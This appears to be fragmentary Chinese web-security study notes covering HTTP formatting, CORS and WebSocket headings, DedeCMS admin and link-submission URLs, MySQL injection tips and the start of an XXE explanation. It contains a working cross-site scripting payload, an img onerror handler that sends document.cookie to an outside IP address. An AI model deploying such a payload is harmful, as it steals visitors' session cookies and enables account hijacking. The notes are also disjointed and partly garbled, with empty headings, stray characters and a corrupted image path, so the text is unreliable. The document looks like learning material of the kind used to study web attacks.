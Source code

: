 head和haed之间必须又空行









### 跨域

#### WebSocket







S









#### CORS



dede plhttps://www.likecs.com/show-308512178.html

http://127.0.0.1/plus/flink_add.php

后台http://127.0.0.1/dede/index.php



<img src='x' onerror=x=new Image();x.src="http://47.92.37.9:8080/1.php?"+document.cookie>



## Mysql





![image-20230410092405943](https://cdn.jsdelivr.net/gh/PDX33/image/202305181753375.png)

0x7e表示~

group_concat与limit不能合用

## XXE

> **一、XML外部实体注入**
>
> 二、XML介绍
>
> 。标签对大小写敏感
>
> 。标签必须闭合
>
> 。必须有根元素
>
> 
